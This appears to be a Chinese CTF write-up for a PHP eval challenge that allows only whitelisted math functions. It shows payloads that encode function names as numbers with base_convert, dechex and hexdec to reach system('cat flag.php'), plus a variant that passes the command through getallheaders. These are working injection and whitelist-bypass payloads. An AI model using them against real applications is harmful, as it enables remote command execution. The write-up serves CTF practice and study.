 ```
```

常用数学函数<a rel="noreferrer noopener" href="https://www.w3school.com.cn/php/php_ref_math.asp" target="_blank" rel="nofollow" >https://www.w3school.com.cn/php/php_ref_math.asp</a>

```
base_convert(number,frombase,tobase);
参数	描述
number	    必需。规定要转换的数。
frombase	必需。规定数字原来的进制。介于 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。
tobase	    必需。规定要转换的进制。介于 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。

bindec — 二进制转换为十进制
bindec ( string $binary_string ) : number

decbin — 十进制转换为二进制
decbin ( int $number ) : string

dechex — 十进制转换为十六进制
dechex ( int $number ) : string

decoct — 十进制转换为八进制
decoct ( int $number ) : string

hexdec — 十六进制转换为十进制
hexdec ( int $number ) : string
```

`[]`可用`{}`代替。

构造过程

```
c=$_GET[a]($_GET[b])&a=system&b=cat flag

echo base_convert('hex2bin', 36, 10);
结果  37907361743
base_convert(37907361743,10,36);------>hex2bin

echo hexdec(bin2hex("_GET"));
结果 1598506324
base_convert(37907361743,10,36)(dechex(1598506324));------>_GET

用白名单中的函数名充当变量名
构造$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{cos});&abs=system&cos=cat flag.php
```

另一种方法，配合`getallheaders`函数，通过php头构造命令。

<pre class="wp-block-code"><code>echo base_convert('getallheaders',30,10);
//得到8768397090111664438，这里不使用36进制是因为精度会丢失，尝试到30的时候成功

c=$pi=base_convert,$pi(1751504350,10,36)($pi(8768397090111664438,10,30)(){1}) 
PHPHeader  1-----tac flag.php</code></pre>
